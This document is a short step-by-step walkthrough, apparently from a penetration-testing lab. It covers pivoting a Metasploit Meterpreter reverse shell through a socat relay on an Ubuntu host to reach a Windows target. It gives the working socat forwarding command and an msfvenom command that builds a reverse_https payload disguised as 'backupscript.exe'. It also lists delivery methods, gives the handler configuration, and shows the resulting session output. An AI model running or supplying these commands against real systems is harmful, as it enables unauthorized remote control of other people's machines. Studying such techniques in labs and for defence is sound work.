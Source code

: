 ### Environment Overview

|   |   |   |
|---|---|---|
|Role|IP Address|Description|
|Attacker Machine|10.10.14.18|Runs Metasploit listener (MSFconsole)|
|Pivot Host|172.16.5.129|Ubuntu Server (running Socat)|
|Target Machine|172.16.5.XX|Windows host executing the payload|

|   |   |   |
|---|---|---|
|Variable|Value|Purpose|
|LHOST|172.16.5.129|Socat listener (pivot host) - payload target|
|LPORT|8080 (pivot)|Port Socat listens on|
|FORWARD TO|10.10.14.18:80|Port on attacker machine for MSF listener|

---

## 1. Start Socat on the Pivot Host (Ubuntu Server)

```Shell
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

- **Listens on 172.16.5.129:8080 (pivot host)**
- **Forwards incoming connections to attacker machine 10.10.14.18 on port 80**

---

## 2. Generate the Payload on the Attacker Machine

```Shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupscript.exe
```

- **LHOST (172.16.5.129)**: The pivot host (Ubuntu) where the payload connects
- **LPORT (8080)**: Port that Socat is listening on
- **This payload connects to the Ubuntu host, which forwards it to the attacker**

---

## 3. Transfer Payload to the Target Machine

- Use techniques like `scp`, Python HTTP server, or PowerShell `Invoke-WebRequest` to deliver `backupscript.exe` to the Windows host.

---

## 4. Start Metasploit Handler on Attacker Machine

```Shell
sudo msfconsole
```

Then configure the listener:

```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run
```

- **Listens on all interfaces at port 80**
- **Will receive traffic forwarded by Socat from the Ubuntu pivot**

---

## 5. Execute Payload on Target (Windows Machine)

Once executed:

- The payload connects to **172.16.5.129:8080** (Socat)
- Socat forwards traffic to **10.10.14.18:80**
- The Metasploit handler receives the connection and establishes a session

---

## 6. Confirm Meterpreter Session on Attacker Machine

```Plain
meterpreter > getuid
Server username: INLANEFREIGHT\\victor
```

- A Meterpreter session is opened through the pivot, verified via `getuid`

---